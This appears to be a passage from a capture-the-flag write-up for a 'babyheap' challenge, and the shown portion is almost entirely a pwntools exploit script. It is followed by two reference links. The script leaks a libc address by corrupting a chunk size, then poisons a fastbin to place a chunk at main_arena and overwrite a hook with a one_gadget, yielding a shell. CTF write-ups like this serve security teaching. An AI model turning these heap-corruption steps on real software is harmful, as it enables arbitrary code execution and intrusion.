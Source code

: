 ```python
	p.sendline("4")
	p.recvuntil("Index: ")
	p.sendline(str(index))

def delete(index):
	p.recvuntil("Command: ")
	p.sendline("3")
	p.recvuntil("Index: ")
	p.sendline(str(index))

# leak libc
allocate(0x18) # 0 
allocate(0x40) # 1
allocate(0x40) # 2
allocate(0x10) # 3
payload = 0x18 * "a" + "\xa1"
update(0, len(payload), payload)
delete(1)
allocate(0x40) # 1
view(2)

addr = u64(p.recvuntil("\x7f")[-6:].ljust(8, "\x00"))
libc.address = addr - 0x3c4b78
main_arena = addr - 0x58
one_gadget = libc.address + 0x4526a # f1147 4526a
print hex(addr)

chunk_addr = main_arena + 0x20 + 5
fake_addr = main_arena - 0x33
allocate(0x40) # 4
delete(2) # use 4 to write to truly 2


allocate(0x58) # 2 
delete(2) # 2

payload = p64(chunk_addr) + p64(0)
update(4,len(payload), payload) # change fd of truly idx2

allocate(0x40) # 2
allocate(0x40) # 5 at main_arena

payload = (0x58 - 0x30 - 5) * "\x00"
payload += p64(fake_addr)
update(5, len(payload), payload)

allocate(0x48) # 6
payload = 0x13 * "a"
payload += p64(one_gadget)
update(6, len(payload), payload)
allocate(0x10)
p.interactive()
```

# 参考链接：

<https://www.anquanke.com/post/id/175630>

<http://eternalsakura13.com/2018/04/03/babyheap/>

